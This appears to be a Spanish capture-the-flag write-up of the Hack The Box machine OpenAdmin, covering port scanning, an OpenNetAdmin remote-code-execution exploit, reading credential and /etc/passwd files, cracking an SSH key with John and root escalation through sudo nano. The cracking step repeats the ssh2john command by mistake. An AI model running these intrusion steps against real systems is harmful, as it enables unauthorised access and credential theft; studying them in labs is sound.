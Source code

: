 # HTB - OpenAdmin
Este es mi primer writeup asi como OpenAdmin(10.10.10.171) fue una de las primeras maquinas que resolvi. Espero que sea de ayuda al lector y H4ppy H4ck1ng!
## Escaneando puertos
Utilizando el comando:
```markdown
nmap -sS --open -p- -sV -T 4 10.10.10.171 
```
![imagen](https://user-images.githubusercontent.com/84255799/119300072-c16ead80-bc25-11eb-9a3c-61bf6bc1ea3f.png)

Del escaneo, se puede observar que la maquina tiene 2 puertos abiertos, se requieren usuarios para el login de SSh por lo que se procede a enumerar el puerto 80.

## Enumeración de directorios
Para este paso hice uso de DirBuster, ingrese los datos: URL: http://10.10.10.171:80/ y Wordlist: directory-list-lowercase-2.3-medium.txt.
La herramiento encontro los siguientes directorios:
![imagen](https://user-images.githubusercontent.com/84255799/119300552-8f118000-bc26-11eb-88c8-6c30854b43aa.png)

Probando esos directorios, encontre que el directorio /music tiene un boton de login que me redirecciona a OpenNetAdmin ver 18.1.1. Buscando en google, encontre que esa versión posee RCE(Remote Code Execution).

## Buscando acceso

Procedo a buscar exploits con el siguiente comando:
```markdown
searchsploit opennetadmin
```
![imagen](https://user-images.githubusercontent.com/84255799/119301075-81a8c580-bc27-11eb-8e87-5796ec89ace9.png)

Una vez copiado el exploit en nuestra carpeta de trabajo, debemos darle permisos para ejecución.
![imagen](https://user-images.githubusercontent.com/84255799/119301145-a2711b00-bc27-11eb-9887-94d2063c84bd.png)

Ejecutandolo con:
```markdown
./ona.sh http://10.10.10.171/ona/
```
Me da una shell:
![imagen](https://user-images.githubusercontent.com/84255799/119301280-d0565f80-bc27-11eb-9d99-24f7c772941f.png)

## Buscando credenciales

Procedo a buscar archivos que puedan darme pistas de cómo obtener acceso a un user.
![imagen](https://user-images.githubusercontent.com/84255799/119301374-fe3ba400-bc27-11eb-9979-f1e5ee69c922.png)

Leyendo ese archivo con:
```markdown
cat var/www/ona/local/config/database_settings.inc.php
```
Encontramos lo siguiente:

![imagen](https://user-images.githubusercontent.com/84255799/119301592-570b3c80-bc28-11eb-8d91-890f011f8fd4.png)

Por lo que intento probar esa contraseña en los usuarios de la maquina
```markdown
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
La contraseña funcionó para Jimmy!

![imagen](https://user-images.githubusercontent.com/84255799/119301787-a2bde600-bc28-11eb-990f-b50693b4f08f.png)

## Escalando privilegios 

Buscando en los directorios de la maquina, encontre uno interesante
```markdown
cat /var/www/internal/main.php
```
![imagen](https://user-images.githubusercontent.com/84255799/119301945-e57fbe00-bc28-11eb-81fa-77a393343e78.png)

Esto me motiva a verificar si se esta utilizando algun otro puerto de forma interna en la maquina
```markdown
ss -ltu
```
![imagen](https://user-images.githubusercontent.com/84255799/119302096-2f68a400-bc29-11eb-96c8-bff28733c843.png)

Por lo que si realizamos Curl a la pagina en ese puerto
```markdown
curl localhost:52846/main.php
```
Encontramos una llave privada
![imagen](https://user-images.githubusercontent.com/84255799/119302205-5a52f800-bc29-11eb-9014-2adb7003b667.png)

### Crackeando password 

Para crackear una pass, mi primera opción es JohnTheRipper, pero antes procedo a ponerla en un formato que el John pueda aceptar
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```

Una vez hecho esto, procedo a crackearla
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```
![imagen](https://user-images.githubusercontent.com/84255799/119302468-c6356080-bc29-11eb-89a7-fcea46d065d1.png)

Cuando probamos esa clave, tenemos el acceso
```markdown
ssh -i id_rsa joanna@10.10.10.171
```
![imagen](https://user-images.githubusercontent.com/84255799/119302614-03015780-bc2a-11eb-8a1e-9ca4c21293e3.png)

Si leemos el user.txt tendremos la flag del user.
![imagen](https://user-images.githubusercontent.com/84255799/119302679-1d3b3580-bc2a-11eb-9364-46da0f308771.png)

### Ultimo paso

Comprobamos que permiso tiene Joanna
```markdown
sudo -l
```
![imagen](https://user-images.githubusercontent.com/84255799/119302790-507dc480-bc2a-11eb-9d61-d31a142d7866.png)

Joanna tiene permiso de ejecutar nano como root.

Por lo tanto,
```markdown
sudo /bin/nano /opt/priv
```
![imagen](https://user-images.githubusercontent.com/84255799/119302929-828f2680-bc2a-11eb-87ce-ae52b53a6321.png)

Para ir directamente a root.txt, busque el archivo y luego procedi a leerlo.
![imagen](https://user-images.githubusercontent.com/84255799/119302975-9aff4100-bc2a-11eb-8614-35dcc25a287d.png)

## Gracias por leer!

Espero te haya servido, proximamente publicaré más writeups.
